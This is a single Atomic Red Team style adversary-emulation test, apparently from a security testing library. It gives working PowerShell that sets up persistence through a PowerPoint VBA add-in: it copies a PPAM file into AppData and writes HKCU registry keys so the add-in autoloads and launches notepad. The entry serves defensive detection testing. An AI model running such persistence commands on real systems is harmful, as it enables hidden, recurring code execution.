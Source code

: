 


<br/>
<br/>

## Atomic Test #5 - Persistent Code Execution Via PowerPoint VBA Add-in File (PPAM)
Creates a PowerPoint VBA Add-in file (PPAM) which runs automatically when PowerPoint is started
The sample PPA provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows


**auto_generated_guid:** f89e58f9-2b49-423b-ac95-1f3e7cfd8277






#### Attack Commands: Run with `powershell`! 


```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\PptVBAaddin.ppam" "$env:APPDATA\Microsoft\Addins\notepad.ppam"
$ver = (New-Object -COMObject "PowerPoint.Application").version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad"
New-Item -type Directory $ExcelRegPath -Force | Out-Null
New-ItemProperty $ExcelRegPath "Autoload" -value "1" -propertyType DWORD  | Out-Null
New-ItemProperty $ExcelRegPath "Path" -value "notepad.ppam" -propertyType string | Out-Null
Stop-Process -Name "PowerPnt" -ErrorAction Ignore
Start-Process "PowerPnt"
```

#### Cleanup Commands:
```powershell
$ver = (New-Object -COMObject "PowerPoint.Application").version
Remove-Item "HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad" -ErrorAction Ignore
Stop-Process -Name "notepad","PowerPnt" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\AddIns\notepad.ppam"  -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "PowerPoint.Application" | Out-Null
  Stop-Process -Name "PowerPnt"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft PowerPoint manually to meet this requirement"
```
##### Description: PPAM file must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\PptVBAaddin.ppam") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
```
